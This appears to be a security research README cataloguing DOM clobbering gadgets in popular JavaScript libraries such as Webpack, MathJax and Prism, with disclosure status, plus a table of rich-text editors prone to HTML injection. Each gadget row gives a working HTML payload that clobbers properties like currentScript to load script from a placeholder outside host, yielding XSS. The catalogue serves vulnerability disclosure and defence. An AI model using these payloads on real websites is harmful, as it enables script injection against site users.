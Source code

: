 # DOM Clobbering Collection

This repository lists client-side libraries that are vulnerable to HTML injection or contain DOM Clobbering gadgets that can result in severe issues like XSS.

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | Status | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:------:|:---:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) | N/A | N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | Patched | N/A |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) | 1K | latest | ```<img name="currentScript" label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | Mitre | N/A |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | N/A | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”></iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert(1)</iframe>``` | XSS | TheHulk | Patched | N/A |
| [Google Closure](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | 4.9K | v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | Accepted | N/A |
| [inspire.js](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/inspire.js.md) | 1.7k | v1.10 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [lodjs](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/lodjs.md) | 290 | latest | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax2.md) | 10.1K | v2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | Accepted | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 10.1K | v3.2.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | Accepted | N/A |
| [Mavo](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mavo.md) | 2.8K | v0.3.2 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | 3.3K | v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | Accepted | CVE-2024-XXXXX |
| [polyfills](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/polyfills.md) | 1.1K | v2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A | N/A |
| [Prism](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/prism.md) | 12.2K | v1.29.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [rspack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/rspack.md) | 8.6K | v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | N/A | N/A |
| [squirt](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/squirt.md) | 1.2K | v0.0.1 | ```<img name="scripts" src="http://xxx.xxx.xxx"><img name="scripts" src="http://xxx.xxx.xxx">``` | XSS | TheHulk | N/A  | N/A |
| [Stage.js](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/stage.js.md) | 2.4K | v1-alpha | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Reported | N/A |
| [steal](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md) | 1.4K | v2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>``` | XSS | TheHulk | Mitre | N/A |
| [tsup](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tsup.md) | N/A | N/A | ```<img src="https://xxx.xxx.xxx" name="currentScript">``` | XSS | TheHulk | N/A | N/A |
| [UMeditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/umeditor.md) | 1.4K | v1.2.2 | ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>``` | XSS | TheHulk | Reported | N/A |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 64.4K | v5.93.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>``` | XSS | TheHulk | Patched | CVE-2024-XXXXX |

## HTML Injection Vulnerabilities

The following libraries accept user input and output content as `type/html` with certain named attributes (e.g., `id` or `name`) preserved at different levels of capability. Using these libraries may expose web applications to HTML injection risks. Libraries may directly insert user input into the DOM, or the web application may retrieve the user input from the library and then add it to the DOM.

| Library | Stars | Version | Input | Sanitizer | Capability | Status | CVE |
|:-------:|:-----:|:-------:|-------|:---------:|-------------------------|:------:|:---:|
| [Froala](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/froala.md) | 5.3K | v4.2.2 | Copy&Paste | DOMPurify | Any `name` attributes | N/A | N/A |
| [mermaid](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mermaid.md) | 70.6K | v0.1.4 | Input | DOMPurify | Any named property without collision | N/A | N/A |
| [RichTextEditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/richtexteditor.md) | N/A | Latest | Copy&Paste | N/A | Any named property | N/A | N/A |
| [SunEditor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/sun-editor.md) | 1.7K | v2.47.0 | Copy&Paste | N/A | `a` tag with `id` | N/A | N/A |
| [TinyMCE-v5/6/7](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tinymce.md) | 14.9K | v7.3.0 | Copy&Paste | DOMPurify | Any named property without collision | N/A | N/A |
| [TinyMCE-v4](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tinymce4.md) | 14.9K | v4.9.11 | Copy&Paste | N/A | Any named property | N/A | N/A |
| [tui.editor](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tui-editor.md) | 17.1K | v3.2.2 | Type | DOMPurify | Any named property without collision  | N/A | N/A |
